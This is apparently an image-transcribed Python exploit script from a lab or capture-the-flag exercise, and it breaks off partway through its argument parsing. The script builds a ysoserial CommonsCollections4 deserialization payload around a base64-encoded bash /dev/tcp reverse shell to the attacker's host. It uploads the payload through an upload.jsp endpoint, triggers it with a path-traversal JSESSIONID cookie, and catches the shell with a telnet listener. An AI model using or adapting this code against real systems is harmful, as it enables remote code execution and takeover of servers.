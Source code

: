 ```py
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Download yososerial if it's not alreadt on the working folder    
def downloadPayGen():
    print("[+] Let's test to see if we already have yososerial on the working folder ! [+]")
    output_jar = "ysoserial-master-SNAPSHOT.jar"
    if not os.path.isfile(output_jar):
        print("[+] I did no locate it, let's dowload ! WAAAAAAAIT SOME MINUTES TO COMPLETE IT ! [+]")
        os.system("wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar")
    else:
        print("[+] We already have it, let's exploit !!! [+]")
  
# Create the malicious serialized reverse shell payload
def createBin(lhost,lport):
    print("[+] Let's make our payload !!! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    reverse = b64e(reverse)
    cmd = "bash -c {echo,%s}|{base64,-d}|{bash,-i}" %(reverse)
    os.system("java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 '%s' > payload.session" %cmd)
    print("[+] Payload Createeeeed !!! [+]")
    
# Upload Malicious session
def maliciousUpload(rhost):
    print("[+] Let's upload our payload !!! [+]")
    url = "http://%s:8080/upload.jsp?email=0x4rt3mis@email.com" %rhost
    data = b''
    multipart_data = {
        'image': ('payload.session', open('payload.session', 'rb'), "application/octet-stream"),
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    print("[+] Uploadeddeded !!! [+]")
    
# Get the reverse
def triggerPayload(rhost):
    print("[+] Let's trigger the reverse shell [+]")
    url = "http://%s:8080/service/" %rhost
    cookies = {"JSESSIONID": "../../../../../../../../../opt/samples/uploads/payload"}
    requests.get(url, cookies=cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--lhost', help='Local ip address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.lhost
```